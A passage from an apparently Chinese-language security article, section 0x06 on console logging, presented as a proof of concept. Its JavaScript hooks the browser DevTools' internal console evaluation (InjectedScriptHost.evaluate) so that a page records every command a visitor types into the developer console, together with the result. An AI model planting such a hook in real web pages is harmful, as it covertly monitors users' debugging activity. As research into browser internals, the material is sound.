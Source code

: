 ## 0x06 控制台日志记录

* * *

我想你大概猜到之前搞了那么多，并不只是为了编写一个不会报错的脚本。让我们来找一些乐子。让我们编写一个可以让命令和预期一样正常执行并能记录所有的命令和执行结果的脚本。这里是我的 POC：

```
// First run
var run = false;
// Save the command line api
var _commandLineAPI = null;
// On console command run
Object.defineProperty(console, '_commandLineAPI', {
 get: function () {
  // Only run once
  if (!run) {
   run = true;
   // Get the InjectedScriptHost
   var InjectedScriptHost = arguments.callee.caller.arguments[1];
   // On evaluate
   Object.defineProperty(InjectedScriptHost, 'evaluate', {
    get: function () {
     // Return a alternate evaluate function
     return function(command) {
      // Get the commands split
      var commands = command.split("\n");
      // Execute the real evaluate function
      var result = InjectedScriptHost.__proto__.evaluate.apply(this, arguments);
      // Ignore suggustion executions for now
      if (commands.length <= 1 || (result && result.name === 'getCompletions')) {
       return result;
      }
      // Remove the first "with..." and last "}" lines
      command = commands.slice(1, -1).join("\n");
      // Next step to ignore suggustion checks
      if (command.trim() === 'this') {
       return result;
      }
      // Log the command and result (tries to lazily parse to a string for now)
      document.write("Attempted Command:<br /><pre>" + command + "</pre>");
      document.write("Command Result:<br /><pre>" + result + "</pre><hr />");
      // Return the result
      return result;
     }
    }
   });
  }
  // Return the actual command line api
  return _commandLineAPI;
 },
 set: function(value) {
  // Copy the value
  _commandLineAPI = value;
 }
});

```
